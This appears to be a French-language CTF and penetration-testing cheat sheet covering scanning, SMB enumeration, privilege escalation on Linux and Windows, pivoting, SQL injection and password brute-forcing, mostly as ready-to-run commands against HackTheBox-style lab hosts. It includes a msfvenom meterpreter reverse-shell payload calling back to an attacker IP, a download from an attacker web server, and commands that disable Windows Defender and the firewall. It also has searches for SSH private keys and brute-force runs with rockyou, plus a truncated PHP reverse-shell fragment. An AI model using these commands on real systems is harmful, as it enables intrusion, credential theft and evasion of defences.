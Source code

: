 # CTF CHEAT SHEET

Reverse shell :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

Scripts d’énumération automatique pour privesc :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134

--WEB
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180/
Bruteforcer les RID des comptes Windows

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
Bruteforce SMB avec crackmapexec

enum4linux -a 10.10.10.180
Enumération SMB, RPC & co (WINDOWS)


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


Exploitation & Elévation de privilèges [LINUX] :
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
-> Liste les répertoires accessibles en écriture

find /* -user root -perm -4000 -print 2>/dev/null
-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null
-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
-> Trouver un fichier précis sur le système

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
-> Trouver des clés RSA ou des autorisations de connexion SSH

grep -iR "passw"
-> Rechercher du texte dans des fichiers d’une arborescence

binwalk socute.jpg
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


Exploitation & Elévation de privilèges [WINDOWS] :
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
Se connecter via le port winrm

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
Tester les privilèges de l’utilisateur

whoami /priv
whoami /groups
Liste des privilèges : https://github.com/gtworek/Priv2Admin
Lister les privilèges de l’utilisateur courant

Get-Services
Lister les services (Pour vérifier les unquoted services)

Set-ExecutionPolicy Unrestricted
Retirer les restrictions d’exécution de scripts

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
Télécharger un fichier depuis un serveur web

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
Vérifier les exploits disponibles en fonction du systeminfo de la victime

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
Activer le RDP et désactiver le firewall

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
Désactiver Windows Defender en Powershell


Pivoting :
Sous Windows :
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2
Seul WINDOWS1 peut joindre WINDOWS2

sur le serveur (kali) :
./chisel server --port 9000 --host 0.0.0.0 --reverse

sur le client (WINDOWS1 172.16.1.1) :
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2

Sous Linux :
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
Ici Kali peut joindre LINUX1 mais pas LINUX2
Seul LINUXS1 peut joindre LINUX2

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2


Injection SQL :
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


Bruteforce :
Cracker un hash SHA 512 avec un salage
Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

Cracker un zip chiffré avec une liste de mots de passe
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
Pour bruteforcer de façon incrémentale

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :
https://github.com/J3wker/anti-CSRF_Token-Bruteforce
